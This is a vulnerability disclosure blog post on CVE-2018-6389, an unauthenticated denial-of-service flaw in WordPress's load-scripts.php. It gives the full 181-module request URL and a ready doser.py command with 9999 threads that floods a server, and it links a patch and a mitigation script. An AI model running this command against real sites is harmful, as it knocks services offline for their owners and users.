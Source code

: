 ```yaml
---
layout: post
title: How to DoS 29% of the World Wide Websites - CVE-2018-6389
---
```


According to wordpress.com, the WordPress platform powers 29% of the worldwide internet websites.

In this article I am going to explain how Denial of Service can easily be caused to almost any WordPress website online, and how you can patch your WordPress website in order to avoid this vulnerability being exploited.

It is important to note that exploiting this vulnerability is illegal, unless you have permission from the website owner.

  

While browsing a WordPress website, my attention was drawn to the following URL:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1)

  

The load-scripts.php file receives a parameter called load\[\], the parameter value is 'jquery-ui-core'. In the response, I received the JS module 'jQuery UI Core' that was requested, as demonstrated in the following image:

  

[![](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s400/wordpress_DoS90975.jpg)](https://2.bp.blogspot.com/-4F7k687LhtY/WnNOLb2JEeI/AAAAAAAAeWo/Zg1InG9enfovEub5JguGQc7ODGDVpxVnwCPcBGAYYCw/s1600/wordpress_DoS90975.jpg)

  

  
  

What can be concluded from this URL, is that it is probably meant to supply users with some JS modules. In addition, the load\[\] parameter is an array, which means that it is possible to provide multiple values and be able to get multiple JS modules within the response.

  

As [WordPress is open-source](https://github.com/wordPress/WordPress), it is easy to perform code review and explore this feature. After doing so, I realized that this feature was designed to economize the amount of requests sent from the client while trying to load JS or CSS files, so when the browser needs to load multiple JS/CSS files, it will use load-scripts.php (for JS) or load-styles.php (for CSS files) and the browser will get multiple JS/CSS files through a single request- so performance-wise it is better to do so and the page will load faster. This feature was designed only for the admin pages, but is also used on the wp-login.php page, so no authentication is enforced on these files.  
  

First, I tried to manipulate this feature and provide a list of the 'jquery-ui-core' value multiple times as follows:

[https://WPServer/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1](https://wpserver/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core,jquery-ui-core&ver=4.9.1)

  

I thought I might make the server read the same file over and over again and append it to the same response, but the use of the 'array\_unique' function removes duplicates in arrays so that didn’t succeeded:  
  

[![](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s400/wordpress_DoS29538.jpg)](https://2.bp.blogspot.com/-dHeIDEGuHso/WnNRpQcDc0I/AAAAAAAAeW0/PMNGAIBRM6gnrxNlA8XPaEZ7cTP_nrLQACPcBGAYYCw/s1600/wordpress_DoS29538.jpg)

  

  

  

I kept exploring the code and found something that looked interesting in the following code snippet, which I wanted to investigate further:

  

[![](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s400/wordpress_DoS13936.jpg)](https://1.bp.blogspot.com/-V7mYFyTsoRE/WnNShajANyI/AAAAAAAAeW8/GdX9vMUBui4cTVXl5pbT4QA7PgQm6MyJgCPcBGAYYCw/s1600/wordpress_DoS13936.jpg)

  

There is a well-defined list ($wp\_scripts), that can be requested by users as part of the load\[\] parameter. If the requested value exists, the server will perform an I/O read action for a well-defined path associated with the supplied value from the user.

  

The wp\_scripts list is hard-coded and is defined in the [script-loader.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php) file:

  

[![](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s640/wordpress_DoS84477.jpg)](https://4.bp.blogspot.com/-y8i3CuXCPeg/WnNTlVC6zsI/AAAAAAAAeXI/sbEG8V8B-_8rcekg-MFhDbbhzIgo5WRHgCPcBGAYYCw/s1600/wordpress_DoS84477.jpg)

  

  

There are 181 values in this list:
```javascript
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
  

I wondered what would happen if I sent the server a request to supply me every JS module that it stored? A single request would cause the server to perform 181 I/O actions and provide the file contents in the response.  
  
So I tried it, I sent the request to the server:

  

[![](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s640/wordpress_DoS83402.jpg)](https://2.bp.blogspot.com/-Y3-moeyXvPQ/WnNV7mKCU5I/AAAAAAAAeXU/RhU4-o_eYs8657dpBYTOUQSTshEqOmcMACPcBGAYYCw/s1600/wordpress_DoS83402.jpg)

  

The server responded after 2.2 seconds, with almost 4MB of data, which made the server work really hard to process such a request.

So I decided to use [doser.py](https://github.com/quitten/doser.py), a simple tool that I wrote, designed to constantly repeat requests (yes, I know Python threads suck, but I still love Python!) in order to cause DoS, and guess what? it worked! :)
```bash
python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
```
  

As long as I kept sending those requests to the server, it was too busy to handle any other request, and I had effectively (and easily) caused DoS.

  

It is time to mention again that load-scripts.php does not require any authentication, an anonymous user can do so.

After ~500 requests, the server didn't respond at all any more, or returned 502/503/504 status code errors like:  
  

[![](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s320/503.jpeg)](https://2.bp.blogspot.com/-CZfC8TqhR7I/WnSt5WhMn1I/AAAAAAAAecw/3yc5vXKh-G4NIEOFtqUSjL_ap7c9ipK8wCPcBGAYYCw/s1600/503.jpeg)

  

[![](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s320/522.jpeg)](https://2.bp.blogspot.com/-klcJxiz-FQg/WnSufnQqUSI/AAAAAAAAec8/6tvTo7IZtkMiPdFTAwrJK5fSJuyZhZcJQCPcBGAYYCw/s1600/522.jpeg)

  

[![](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s320/wordpress_DoS85318.jpg)](https://2.bp.blogspot.com/-BMq_fAPVm7k/WnStEObY-mI/AAAAAAAAeco/ih28vCrQWocElxfv3DH5DA3QDSpAxglHQCPcBGAYYCw/s1600/wordpress_DoS85318.jpg)

  

  

[Full PoC video](https://www.youtube.com/watch?v=nNDsGTalXS0)
  

  

WordPress has a bug bounty program, and I contacted them about this issue, even though I knew DoS vulnerabilities are out-of-scope, I reported it through HackerOne and explained the vulnerability, I thought they would understand that there is a security issue here and properly address it. After going back and forth about it a few times and my trying to explain and provide a PoC, they refused to acknowledge it and claimed that:  
"This kind of thing should really be mitigated at the server or network level rather than the application level, which is outside of WordPress's control."

  

Even though I was extremely frustrated about them not acknowledging this as a vulnerability, I kept on exploring how I can mitigate this attack, and [forked WordPress project and patched it](https://github.com/quitten/WordPress) so no one but authenticated users can access the load-\*.php files, without actually harming the wp-login.php file functionality. So if you are currently using, or are about to use, WordPress, I would highly recommend you use the patched version.

In case you already have a WordPress website on a Linux machine, I created [this bash script](https://github.com/Quitten/WordPress/blob/master/wp-dos-patch.sh) that modifies the relevant files in order to mitigate the vulnerability.

  
